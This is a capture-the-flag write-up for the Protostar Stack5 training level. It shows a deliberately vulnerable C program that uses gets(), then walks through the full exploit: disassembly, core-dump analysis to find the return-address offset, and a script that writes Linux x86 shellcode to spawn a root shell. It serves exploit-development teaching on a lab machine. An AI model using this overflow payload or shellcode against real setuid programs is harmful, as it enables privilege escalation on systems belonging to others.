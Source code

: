 #### Protostar Stack5

##### About
Stack5 is a standard buffer overflow, this time introducing shellcode.  
  
This level is at /opt/protostar/bin/stack5

###### Hints
* At this point in time, it might be easier to use someone elses shellcode
* If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
* remove the int3s once your shellcode is done.

##### Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

To solve this challenge, one should use core dumps for analysis instead of direct debugging in order to capture the memory state of the program exactly as it appears during normal execution.  
  
Notice that, if one call stack5 program by ./stack5 in the /opt/protostar/bin folder, the momory address of the overflow point will be different from the one of which called by using the full path.  
  
All the references are worth reading, especially the last one.

##### Solution
```
$ gdb stack5
......
(gdb) disas main
Dump of assembler code for function main:
0x080483c4 <+0>:    push   %ebp
0x080483c5 <+1>:    mov    %esp,%ebp
0x080483c7 <+3>:    and    $0xfffffff0,%esp
0x080483ca <+6>:    sub    $0x50,%esp
0x080483cd <+9>:    lea    0x10(%esp),%eax
0x080483d1 <+13>:   mov    %eax,(%esp)
0x080483d4 <+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <+21>:   leave  
0x080483da <+22>:   ret 
End of assembler dump.
(gdb) quit

$ ulimit -c unlimited                 
$ cat /proc/sys/kernel/core_pattern
......
root@protostar:~$ echo 1 > /proc/sys/fs/suid_dumpable         <-- MUST be executed as root
......
$ python -c "print 'A'*76+'B'*4+'C'*80" | ./stack5
Segmentation fault (core dumped)

root@protostar:/tmp# gdb -q -c core.11.stack5.1401            <-- MUST be executed as root
Core was generated by './stack5'.
Program terminated with signal 11, Segmentation fault.
#0  0x42424242 in ?? ()
(gdb) x/40x $esp-100
0xbffffcfc:     0x080483d9      0xbffffd10      0xb7ec6165      0xbffffd18
0xbffffd0c:     0xb7eada75      0x41414141      0x41414141      0x41414141
0xbffffd1c:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffd2c:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffd3c:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffd4c:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffd5c:     0x42424242      0x43434343      0x43434343      0x43434343
0xbffffd6c:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffd7c:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffd8c:     0x43434343      0x43434343      0x43434343      0x43434343
(gdb) quit

$ cat script.sh
#!/bin/sh
python -c "print 'A'*76+'\x70\xfd\xff\xbf'+'\x90'*20+'\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'" > /tmp/payload

$ ./script.sh
......
$ ./stack5 < /tmp/payload
# whoami
root
```

##### Reference
<https://github.com/Wins0n/Exploit-Exercises_ProtoStar/blob/master/protostar_part1.md>  
<https://thesprawl.org/research/exploit-exercises-protostar-stack/#stack-5>  
<https://www.mattandreko.com/2011/12/17/exploit-exercises-protostar-stack-5/>
